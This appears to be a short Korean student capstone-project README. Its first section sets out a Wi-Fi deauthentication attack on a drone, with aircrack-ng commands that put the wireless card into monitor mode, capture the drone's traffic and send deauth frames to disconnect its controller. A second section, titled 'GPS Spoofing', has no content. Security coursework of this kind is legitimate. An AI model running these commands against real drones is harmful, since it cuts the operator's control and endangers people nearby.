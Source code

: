캡스톤디자인I 코드
=================


1.인증해제 공격
---------------

무선 랜카드가 장착된 Kali Linux 환경에서 행한다.

```bash
airmon-ng check kill
iwconfig
```


무선랜 이름 확인

```bash
airmon-ng start [무선랜 이름]
airodump-ng [무선랜 이름] --essid-regex [드론의 MAC주소] -w [저장 파일명]
```


제어 기기 MAC 확인

```bash
iwconfig [무선랜 이름] channel [드론 AP의 채널]
aireplay-ng --deauth [공격 시간] -a [드론의 MAC주소] -c [제어 기기의 MAC주소] [무선랜 이름]
```



2.GPS Spoofing
---------------



